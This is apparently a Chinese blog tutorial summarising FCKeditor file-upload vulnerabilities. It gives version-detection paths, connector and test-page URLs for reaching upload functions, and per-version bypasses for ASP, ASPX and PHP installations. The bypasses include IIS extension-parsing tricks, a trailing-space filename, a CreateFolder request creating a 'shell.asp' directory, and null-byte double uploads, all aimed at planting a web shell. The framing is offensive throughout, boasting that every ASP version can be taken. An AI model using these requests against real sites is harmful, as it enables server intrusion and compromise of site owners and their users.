# FCKeditor上传漏洞总结

## 0x01 FCKeditor简介

FCKeditor是一个专门使用在网页上属于开放源代码的所见即所得文字编辑器。它志于轻量化，不需要太复杂的安装步骤即可使用。它可和PHP、 JavaScript、ASP、ASP.NET、ColdFusion、Java、以及ABAP等不同的编程语言相结合。“FCKeditor”名称中的 “FCK” 是这个编辑器的作者的名字Frederico Caldeira Knabben的缩写。FCKeditor 相容于绝大部分的网页浏览器，像是 : Internet Explorer 5.5+ (Windows)、Mozilla Firefox 1.0+、Mozilla 1.3+ 和 Netscape 7+。在未来的版本也将会加入对 Opera 的支援。

![](http://7xk8bu.com1.z0.glb.clouddn.com/f.jpg)

## 0x02 判断版本
常见判断版本方法有两个：

```
/fckeditor/editor/dialog/fck_about.html
/FCKeditor/_whatsnew.html
```

![](http://7xk8bu.com1.z0.glb.clouddn.com/f1.jpg)

## 0x03 上传地址常用的上传地址A

```
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com%2Ffckeditor%2Feditor%2Ffilemanager%2Fconnectors%2Fphp%2Fconnector.php (ver:2.6.3 测试通过)
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector.jsp
```

常用的上传地址B

```
FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html
```

## 0x04 上传方法ASP版

asp一般是搭在windows主机上，webserver一般为IIS6/IIS7/IIS7.5。据我现在所知，asp版的fckeditor已经可以全秒了。

<2.4.x版本（也就是2.4.x及以下）的File参数时为黑名单验证，可以通过上传.asa、.cer、.asp;jpg（针对IIS6）。如果asa、cer不被解析，还可以传.asp[空格]。传的方法就是抓包然后在数据包里的文件名后填个空格。

2.5.x和2.6.x：如果是IIS6.0 ，可以通过突破变”.”为”_”限制创建.asp文件夹，代码如下：

```
Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=%2Fshell.asp&NewFolderName=z.asp
```

复制代码然后往这个文件夹里传jpg，这个不多说了。

如果是IIS7及以上，这种方法就**了。这个时候可以借助刚爆出来的那种方法，先传shell.asp%00txt，然后再传一次。

至此，asp版本已经全秒了。

## ASPX版

低版本同ASP版，2.6.x用刚爆出来的二次上传已经不好使了，不过新建test.asp的文件夹还可以使。一般IIS6.0会支持asp，可以先传个asp上去，然后再XX。

## PHP版

1.低版本（2.4.x及以下），仍然为黑名单验证，windows主机可以使用php[空格]传，2.4.3的有个media未设置导致任意文件上传可以秒linux。

2.2.5.x以后是白名单验证，仅能寄希望于wooyun里爆的那个<2.6.4的任意文件上传，成功率有限。

3.2.6.4以上的php版，据我所知没戏，求高人指点！我粗略的看了一下它的验证逻辑，表示没戏，windows里的敏感字符全给过滤了。